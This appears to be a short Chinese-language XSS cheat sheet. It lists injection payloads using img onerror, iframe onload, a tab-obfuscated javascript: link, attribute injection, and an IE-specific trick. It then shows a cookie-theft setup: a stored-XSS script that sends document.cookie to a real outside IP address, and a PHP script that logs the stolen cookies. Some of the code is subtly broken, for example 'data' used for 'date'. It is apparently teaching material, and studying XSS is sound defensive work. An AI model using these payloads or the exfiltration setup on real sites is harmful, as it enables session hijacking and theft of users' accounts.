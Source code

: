**img标签构造：**

```
<img src=1 onerror=alert(/2333/)>
```

**iframe标签构造**：

```
<iframe onload=alert(/2333/)>
```

**a标签构造+URL截断（&#09）：**

```
"><a href="javascr&#09;ipt:alert(document.domain);">xxxxx</a>
```

**隐藏input，找到\<input\>标签中的name：**

```
?name="type="text" onmouseover="alert(/2333/) 
```

**IE浏览器特性：**

```
``onmouseover=alert(document.domain);
```



# XSS cookie盗取

构造存储型 xss ，内容为传参，并指向自己的服务器：

```html
<script>alert(/var url="39.99.232.62/eydm.php?msg="+zyc+document.cookie;Window.open(url,"_blank")/)</script>
```

服务器端进行接收数据，接收传参：

```php
<?php
$content = $_REQUEST["msg"];
$time = data(format:'Y-m-d H:i:s', time());
$file = "xss.txt";
$fp = fopen($file, mode:"a+");
fwrite($fp, string:$time . "|" . $content . "\r\n");
fclose($fp)
?>
```



# XSS例题

## 7道例题
